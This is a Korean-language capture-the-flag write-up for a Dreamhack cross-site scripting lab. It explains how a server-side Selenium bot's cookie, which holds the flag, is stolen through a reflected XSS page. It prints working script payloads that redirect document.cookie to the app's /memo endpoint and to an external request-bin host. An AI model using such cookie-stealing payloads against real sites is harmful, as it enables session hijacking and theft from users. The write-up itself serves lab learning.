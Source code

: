 
현재 `index.html`의 코드에서 `/memo` 엔드 포인트에는 `hello` 파라미터로 전달 되기 때문에 `hello`가 출력되고 있다.

```
<p class="important"><a href="/vuln?param=<script>alert(1)</script>">vuln(xss) page</a></p>
<p class="important"><a href="/memo?memo=hello">memo</a></p>
<p class="important"><a href="/flag">flag</a></p>
```

<img width="997" alt="image" src="https://github.com/user-attachments/assets/51f07d84-65ea-4dda-8086-4479236d6c8e">

여기서, `/flag` 엔드 포인트에서 폼에 `<script>location.href = "/memo?memo =" + document.cookie</script>`를 입력해서 제출해주는 상황을 생각해보자. 

이렇게 되면, `/flag`의 기존 동작에 따라 폼으로 입력 받은 `param`을 통해 `/vuln` 엔드 포인트에 먼저 접속하여 `return param`을 수행하게 된다.

그럼 방금 `/flag`에서 `param`에 대입해준 스크립트 코드를 수행하게 되어서, 현재 URL이 `/memo` 엔드 포인트로 바뀌게 되고, 파라미터로 임의 이용자의 `cookie`가 전달되게 되어, 이를 통해 `memo.html` 파일이 출력되게 된다.

```
{% block content %}
<pre>{{ memo }}</pre>
{% endblock %}
```

**참고로, 여기서 임의 이용자는 코드를 수행한 자신이 아닌 서버의 봇이기 때문에 `FLAG = open("./flag.txt", "r").read()`로 플래그를 읽어서 쿠키에 세팅하게 된다. (`XSS`의 상황과, 자신의 쿠키에는 플래그 정보가 없다는 것을 잘 생각하자.)**

`/vuln` 엔드 포인트에서 스크립트 코드가 실행되서 `location.href`가 `/memo`로 바뀌게 되면, 

셀레니움에 의해 서버에서 `/memo`에 방문하는 시뮬레이션을 발생시켜, 플래그가 존재하는 쿠키가 `memo_text`에 추가되게 된다.

플래그를 사용자도 볼 수 있고, `hello`가 계속 누적되는 이유는 `memo`의 텍스트가 계속 누적되는 이유는 `memo` 파라미터를 저장하는 `memo_text`가 전역 변수로 계속 더해지기 때문이다.

<img width="976" alt="image" src="https://github.com/user-attachments/assets/eceb0fca-6060-4fd3-8965-8aee680d87ea">

<br>

#### 잘못했던 생각

처음에 잘못했던 생각이, 바로 `/flag` 에서 `<script>document.cookie</script>` 를 해주면 인덱스 페이지를 통해 `/vuln`에 접근할 때, 바로 `document.cookie`가 출력되는게 아닌가라는 생각을 했는데,

`read_url`을 통해서 `/vuln`에 접근하는 것은 폼을 입력한 현재 클라이언트가 아니라, `XSS` 공격에서 임의 이용자 역할을 하는 셀레니움이기 때문에 사용자에게는 아무 영향이 없다.

따라서, 사용자가 인덱스 페이지에서 `/vuln`에 접근해서 할 수 있는 것은 `alert(1);`코드를 수행하는 것 뿐이며, `URL`을 통해 `http://host3.dreamhack.games:21913/vuln?param=<script>document.cookie<script>`로 접속해도, 이 쿠키는 세팅되지 않은 현재 클라이언트의 쿠키이기 때문에 아무 값도 출력되지 않는다.

따라서, 셀리니움을 통해서 서버 측에서 `/vuln`에 접근하여, 폼으로 전달한 스크립트 코드를 실행하게 하는 시뮬레이션을 발생시켜서 `/memo`로 후 `memo_text`에 플래그를 더해서 현재 클라이언트에게도 보이도록 해야한다.

<br>

### 2. 웹 서버 사용

외부에서 접근 가능한 웹 서버를 통해 탈취한 쿠키를 확인할 수 있다. 

외부에서 접근 가능한 웹 서버가 없다면 [드림핵 툴즈 서비스](https://tools.dreamhack.games/)의 `Reqeust Bin` 기능을 이용하여 대체할 수 있다.

`Request Bin` 기능은 이용자의 접속 기록을 저장하기 때문에 웹 서버를 통해 탈취한 쿠키를 확인할 수 있다.

`Request Bin` 버튼을 클릭하면 랜덤한 `URL`이 생성되며, 해당 `URL`에 접속한 기록을 저장한다.

`/flag`에서 아래와 같은 코드를 입력하면, 아래 이미지와 같이 접속 기록에 포함된 플래그를 획득할 수 있다.

`<script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo=" + document.cookie;</script>`

이 스크립트를 입력해주면 셀레니움을 통해 서버가 해당 주소에 접속하여 `document.cookie` 값을 파라미터로 보내게 된다.
